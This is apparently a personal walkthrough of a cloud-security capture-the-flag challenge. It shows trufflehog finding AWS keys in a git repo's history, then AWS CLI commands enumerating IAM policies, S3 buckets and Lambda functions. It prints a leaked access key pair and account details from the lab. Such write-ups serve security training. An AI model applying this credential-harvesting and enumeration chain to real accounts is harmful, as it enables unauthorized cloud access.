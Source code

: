 Get chest by going left into wall once inside

# AWS CLI Intro
hint 
In the AWS command line (CLI), the Secure Token Service or STS has one _very_ useful function.
(https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/get-caller-identity.html)

![[Pasted image 20221209125309.png]]
![[Pasted image 20221209125337.png]]
![[Pasted image 20221209125728.png]]

![[Pasted image 20221209125709.png]]
![[Pasted image 20221209130255.png]]

![[Pasted image 20221209130217.png]]
# Git repo
Use the terminal on top
![[Pasted image 20221209133522.png]]

```
https://haugfactory.com/asnowball/aws_scripts.git
```
```
## Checkout Old Commits
_From: Jill Underpole
Objective: [Trufflehog Search]
If you want to look at an older code commit with git, you can 
`git checkout CommitNumberHere`.
```
```
## Trufflehog Tool
_From: Jill UnderpolE
Objective: [Trufflehog Search]
You can search for secrets in a Git repo with `trufflehog git https://some.repo/here.git`.
```
![[Pasted image 20221209170059.png]]

Answer: put_policy.py


# Explotation via AWS CLI

hint , you should know the difference between managed and inline policies
![[Pasted image 20221209170746.png]]
![[Pasted image 20221209171505.png]]
![[Pasted image 20221209171519.png]]
![[Pasted image 20221209171532.png]]
![[Pasted image 20221210085224.png]]
![[Pasted image 20221210085306.png]]


looking at the commit that trufflehog detects
use the hint from before
git checkout {commit#}
cd into put_policy.py
```
iam = boto3.client('iam',
    region_name='us-east-1',
    aws_access_key_id="AKIAAIDAYRANYAHGQOHD",
    aws_secret_access_key="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",
)

```

![[Pasted image 20221210092600.png]]
```
{
    "UserId": "AIDAJNIAAQYHIAAHDDRA",
    "Account": "602123424321",
    "Arn": "arn:aws:iam::602123424321:user/haug"
}
```

user from above haug
Answer:
```
aws iam list-attached-user-policies --user-name haug
```
![[Pasted image 20221210093044.png]]

![[Pasted image 20221210093027.png]]

![[Pasted image 20221210093254.png]]
```
aws iam get-policy --policy-arn "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY"
```
![[Pasted image 20221210093204.png]]

![[Pasted image 20221210093340.png]]

![[Pasted image 20221210093551.png]]

```
aws iam get-policy-version --policy-arn "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY" --version-id "v1"
```

![[Pasted image 20221210093518.png]]

```
aws iam list-user-policies --user-name haug
```

![[Pasted image 20221210093819.png]]
![[Pasted image 20221210093804.png]]
```
aws iam get-user-policy --user-name haug --policy-name S3Perms
```
![[Pasted image 20221210094024.png]]

![[Pasted image 20221210094236.png]]
```
aws s3api list-objects --bucket "smogmachines3"
```

![[Pasted image 20221210094217.png]]

```
aws lambda list-functions
```

![[Pasted image 20221210094530.png]]

```
aws lambda get-function-url-config --function-name smogmachine_lambda
```

![[Pasted image 20221210103230.png]]